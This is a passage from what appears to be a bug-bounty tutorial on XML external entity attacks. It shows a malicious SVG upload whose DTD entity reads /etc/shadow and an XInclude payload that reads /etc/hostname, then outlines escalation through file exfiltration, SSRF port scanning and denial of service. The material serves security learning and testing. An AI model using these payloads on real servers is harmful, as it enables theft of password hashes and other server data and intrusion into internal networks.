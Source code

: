	<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
	</svg>
#### Insert the XXE payload by adding a DTD directly into the file and referencing the external entity in the SVG image. You can then save the file as an .svg file and upload it to the server:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "file:///etc/shadow">
	]>
	<svg width="500" height="500">
	<circle cx="50" cy="50" r="40" fill="blue" />
	<text font-size="16" x="0" y="16">&test;</text>
	</svg>


#### <font color="red">Step 5- Test for XInclude Attacks </font>: Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.
#### Include is a special XML feature that builds a separate XML document froma single XML tag named xi:include. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

#### To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:
	
	<example xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/hostname"/>
	</example>


## <font color="red">Escalating the attack</font >:
#### What you can achieve with an XXE vulnerability depends on the permissions given to the XML parser. 

#### you can use XXEs to access and exfiltrate system files, source code, and directory listings on the local machine.

#### ou canalso use XXEs to perform SSRF attacks to port-scan the target’s network, read files on the network, and access resources that are hidden behind a firewall.
#### and some attackers use XXE to launch Dos attacks

### <font color="red">Reading File </font>:
#### To read local files by using an XXE vulnerability, place the local file’s path into the DTD of the parsed XML file. Local files can be accessed by using the file:// URL scheme followed by the file’s path on the machine. This payload will make the XML parser return the contents of the /etc/shadow file on the server:
